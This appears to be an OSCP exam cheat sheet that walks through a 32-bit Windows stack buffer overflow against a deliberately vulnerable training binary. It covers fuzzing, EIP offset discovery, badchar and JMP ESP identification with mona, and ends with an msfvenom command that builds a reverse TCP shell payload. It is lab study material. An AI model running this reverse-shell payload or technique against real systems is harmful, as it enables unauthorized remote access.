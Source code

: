 # OSCP Buffer Overflow Cheat Sheet

The exploitation of the stack buffer overflow in the OSCP exam is based on Windows 32-bit systems.

In this cheat sheet we will use dostackbufferoverflowgod as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the `connect.py` script to verify the application's response.

After this step, we will run the `fuzzing.py` script to identify the point that the application will crack. But before that, on your Windows, attach the application to the Immunity Debugger.

## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string of strings with the pattern_create, from the MSF suite

```
msf-pattern_create -l 1024
```

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

```
msf-pattern_offset -q 39654138
```

Now we can run `poc.py` and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option `!mona bytearray`.

Insert the mona output in the `badchars.py` script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is `\xff\xe4` (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run `!mona modules` and identify the unprotected modules.

Run `!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0a"` to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

```
0x080416BF  <->  "\xBF\x16\x04\x08"
```
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 ```
 
 The `EXITFUNC=thread` option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our `exploit.py` and run it against our application to gain access to the system exploiting the Buffer Overflow

